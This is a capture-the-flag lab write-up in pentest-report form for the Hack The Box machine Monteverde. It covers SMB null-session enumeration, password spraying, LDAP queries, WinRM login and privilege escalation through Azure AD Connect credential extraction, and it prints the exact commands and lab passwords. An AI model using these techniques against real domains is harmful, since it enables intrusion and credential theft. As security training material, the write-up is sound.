

# Monteverde – 10.10.10.172

To begin with, a Nmap scan will be issued to obtain all the open TCP ports on the target. Following command is used ```sudo nmap -sS --min-rate 10000 -p- monteverde.htb```


## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -sC -sV -O --min-rate 1000 -p53,88,135,139,389,445,464,593,636,5985,9389 monteverde.htb```


As it can be seen in the previous picture, domain name is « megabank.local » which will be added to hosts file.

### SMB Enumeration

Due to the open ports and running services, Monteverde seems to be a Domain Controller.

First thing will be to enumerate SMB service using “CrackMapExec”.

Lets check if the server allows null session with ```crackmapexec smb megabank.local -u '' -p '' ```


As it is allowed, lets enumerate domain users with ```crackmapexec smb megabank.local -u '' -p '' --users```
 


Next step is to enumerate shares with ```crackmapexec smb megabank.local -u ‘’ -p ‘’ --shares```.
 


After some failed tests, I decided to check if any user’s password was equal to the username. Used command for that was```“crackmapexec smb megabank.local -u usernames.txt -p usernames.txt --shares```, if any valid credentials are found, it will try to enumerate domain shares. 
 


As shown in previous picture, new domain credentials were found ```SABatch-Jobs:SABatchJobs```.

Using the newly found set of credentials I will spider all the shares looking for the pattern “.” In order to find any juicy files. Command used is ```crackmapexec smb megabank.local -u ‘SABatchJobs’ -p ‘SABatchJobs’ --spider users$ --pattern ‘.’```
 


One file is found ```azure.xml```. After downloading it using smbclient, I check its contents.
 


A new password is found ```4n0therD4y@n0th3r$```. As it is stored in a file located on user’s ```mhope``` personal directory, it is probably related to this user. However, all the usernames will be checked by performing a password spraying attack using crackmapexec ```crackmapexec smb megabank.local -u usernames.txt -p '4n0therD4y@n0th3r$' --continue-on-success```
 


As it is shown in the picture, the password is user’s ```mhope``` domain password.

### LDAP Enumeration

After getting Domain credentials is useful to perform LDAP authenticated enumeration us-ing python. My main goal now is to obtain more info about user ```mhope``` (who is not allowed to authenticate via LDAP).

```
import ldap3
>>>server=ldap3.Server(’10.10.10.172’, get_info=ldap3.ALL, port=389, use_ssl= False)

>>>connection=ldap3.Connection(server, 'SABatchJobs', 'SABatchJobs')

>>>connection.bind()
True
>>>server.info
```


Now that naming context is known, more info can be extracted.

```
>>>connection.search('dc=megabank,dc=local', '(objectclass=user)')

>>>connection.entries

```
 


```
>>>connection.search('CN=Mike Hope,OU=London,OU=MegaBank Us-ers,dc=megabank,dc=local', '(objectclass=user)', search_scope='SUBTREE', attributes='*')

>>>connection.entries
```


Now we know that user ```mhope``` is a member of the Security Groups ```Azure Admins``` and ```Remote Management Users```. As a result of the second membership, he can access the domain controller through ```WinRM```.

## Initial Access – Insecure Credentials

**Vulnerability Explanation**: after enumerating domain users through SMB using a null ses-sion, it was found that user’s ```SABatchJobs``` password was equal to the username. Using these credentials, it was possible to find a file stored on another user’s personal directory that contained another password. After performing a Password Spraying Attack, it was found that this password was user’s ```mhope``` domain password.

**Vulnerability Fix**: avoid using the same username as password. Avoid storing publicly readable files containing cleartext passwords.

**Severity**: Critical

**Steps to reproduce the attack**:

-	Steps to obtain credentials for user ```mhope``` are explained on SMB Enumeration
-	Authenticate through WinRM using ```evil-winrm -i megabank.local -u mhope -p ‘4n0therD4y@n0th3r$’ ```
-	Grab ```C:\Users\mhope\Desktop\user.txt```
 


## Post-Exploitation

Once obtained access to the DC, it is time to enumerate its contents. First thing done was to bypass amsi using ```Evil-winrm``` functionality ```Bypass-4MSI```. After that, ```winpeas```is uploaded to the server.
 


As ```mhope``` is a member of ```Azure Admins``` the highlighted installed software is quite interesting. 

Looking through google, I found  post where there is a good explanation of how to lever-age Azure AD Connect to escalate privileges.

In order to allow Active Directory users to authenticate using AD credentials and access cloud services such as Azure, Office365 and more, there are three main different ways in which Azure AD can be configurated to integrate with existing Active Directory deployments:
- Password Hash Synchronization: uploading AD password hashes to Azure AD.
- Pass-through Authentication: allows Azure AD to forward authentication requests onto on-prem AD.
- Federated Authentication: traditional ADFS deployment.

Here, the first one is being used.

By default, ```MSOL[hex_value]``` user is the one that takes care of Active Directory to Azure replication. To support the synchronization service, metadata and configuration data is stored (parts of the data are encrypted using ```mcrypt.dll```) on the MSSQL database that by default is created when the Azure connector is deployed onto a host. Among that data is ```MSOL_[hex]``` user password’s hash. In this case “mhope” as a member of "Azure Admins” can access the MSSQL database.

A PowerShell PoC that uses the before mentioned DLL can be found . Using this poc script is possible to retrieve the stored cleartext domain, username and password.

## Privilege Escalation – Misconfigured Azure AD Connect

**Vulnerability Explanation**: a deeper explanation can be found in the previous section Post-Exploitation. The user whose credentials are used to synchronize AD with Azure AD is ```Administrator```. Then, once these credentials are retrieved using the above mentioned PoC, Domain Administrator account is compromised.

**Vulnerability Fix**: never use an Administrator account to perform this task as Administrative privileges are not required.

**Severity**: Critical

**Steps to reproduce the attack**: 

- Download the  and upload it to the host.
 


- Import the module and execute it ```Azure-ADConnect -server 127.0.0.1 -db ADSync```
 


- Access through WinRM as Administrator with Evil-WinRm with ```evil-winrm -I mega-bank.local -u Administrator -p “d0m@in4dminyeah!```
 


**Screenshot**:


